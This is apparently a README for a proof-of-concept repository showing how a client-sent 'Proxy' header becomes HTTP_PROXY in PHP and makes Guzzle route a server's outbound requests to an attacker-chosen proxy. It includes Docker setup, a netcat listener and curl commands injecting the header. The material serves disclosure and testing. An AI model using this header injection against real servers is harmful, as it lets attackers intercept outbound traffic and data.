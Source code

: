 # Guzzle FPM Proxy Vulnerability

Some command-line HTTP clients support a set of environment variables to configure a proxy. These
are of the form `<protocol>_PROXY`; `HTTP_PROXY` is particularly noteworthy.

Separately, PHP takes user-supplied headers, and sets them as `HTTP_*` in the `$_SERVER` autoglobal.

## Steps

This is how the vulnerability works:

1. Do the usual PHP thing of exposing user-supplied headers as `$_SERVER['HTTP_*']`
2. Be using Guzzle from FPM or Apache (haven't tested with other SAPIs, assume some others possibly vulnerable too)
3. As an HTTP client, inject a `Proxy: my-malicious-service` header to any request made
4. Watch as Guzzle helpfully sends the request to the malicious proxy, supplied by the client

## Using this repo

Here is how you can see it in action:

1. Clean up running instances from the last run:

    ```sh
    docker stop fpm-test-instance > /dev/null 2>&1
    docker rm   fpm-test-instance > /dev/null 2>&1
    ```

2. Start a new test instance of the vulnerable script:

    ```sh
    docker build -t fpm-guzzle-proxy .
    docker run -d -p 80:80 --name fpm-test-instance fpm-guzzle-proxy
    ```

3. Start some sort of capturing proxy, to test whether the request comes through. Note that things interpreting HTTP_PROXY
    don't seem to care about the path portion of the URL (so, requestb.in won't work). I have had success with `ngrok tcp 9999`,
    but it requires a paid account. Another one that works well for local testing is:

    `nc -l 12345`

4. Then, fire a request at your vulnerable script, and watch the data arrive at the user-specified proxy:

    ```sh
    curl -H 'Proxy: 0.tcp.ngrok.io:12345' 127.0.0.1
    ```

    or

    ```sh
    curl -H 'Proxy: 172.17.0.1:12345' 127.0.0.1
    ```

    etc.

# Version

## Apache

```
# apachectl -v
Server version: Apache/2.4.10 (Debian)
Server built:   Nov 28 2015 14:05:48
```

## PHP

```
# php -v
PHP 7.0.8 (cli) (built: Jul 14 2016 00:36:26) ( NTS )
Copyright (c) 1997-2016 The PHP Group
Zend Engine v3.0.0, Copyright (c) 1998-2016 Zend Technologies
```

## Guzzle

```
## 6.2.0 - 2016-03-21

* Feature: added `GuzzleHttp\json_encode` and `GuzzleHttp\json_decode`.
  https://github.com/guzzle/guzzle/pull/1389
* Bug fix: Fix sleep calculation when waiting for delayed requests.
  https://github.com/guzzle/guzzle/pull/1324
* Feature: More flexible history containers.
  https://github.com/guzzle/guzzle/pull/1373
* Bug fix: defer sink stream opening in StreamHandler.
  https://github.com/guzzle/guzzle/pull/1377
* Bug fix: do not attempt to escape cookie values.
  https://github.com/guzzle/guzzle/pull/1406
* Feature: report original content encoding and length on decoded responses.
  https://github.com/guzzle/guzzle/pull/1409
* Bug fix: rewind seekable request bodies before dispatching to cURL.
  https://github.com/guzzle/guzzle/pull/1422
* Bug fix: provide an empty string to `http_build_query` for HHVM workaround.
  https://github.com/guzzle/guzzle/pull/1367
```
